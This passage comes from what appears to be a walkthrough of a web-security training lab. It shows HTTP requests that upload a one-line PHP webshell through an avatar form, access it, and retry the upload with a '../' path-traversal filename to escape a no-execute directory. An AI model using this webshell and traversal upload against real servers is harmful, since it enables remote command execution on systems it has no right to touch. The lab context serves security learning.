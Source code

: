 ```
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

The file avatars/exploit.php has been uploaded.
```

**Accessing PHP webshell**
```
GET /files/avatars/exploit.php HTTP/1.1
Host: 0a41002404649dcf8011bc34002b00b1.web-security-academy.net
Cookie: session=yLPqxXJxdNw7mCszZQ3mGZfesjFQNXpM
...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 09:17:34 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Wed, 07 Jun 2023 09:12:19 GMT
ETag: "1e-5fd868869cf14"
Accept-Ranges: bytes
Keep-Alive: timeout=5, max=100
Connection: close
X-Frame-Options: SAMEORIGIN
Content-Length: 30

<?php system($_GET["cmd"]);?>
```

Now, let's explore the possibility of adding Directory Traversal sequences in the filename. By doing so, we can attempt to upload the file to a different directory that is not affected by the restricted execution policy.

```
POST /my-account/avatar HTTP/1.1
Host: 0a41002404649dcf8011bc34002b00b1.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ3eGsByZh5Zyv2B8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=yLPqxXJxdNw7mCszZQ3mGZfesjFQNXpM
Content-Length: 449

------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
Content-Type: application/x-php

<?php system($_GET["cmd"]);?>

------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryJ3eGsByZh5Zyv2B8
Content-Disposition: form-data; name="csrf"

UnD53tWQGRadk9rN5dzxM2gorXo8TK9h
------WebKitFormBoundaryJ3eGsByZh5Zyv2B8--

...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 09:07:34 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 132

```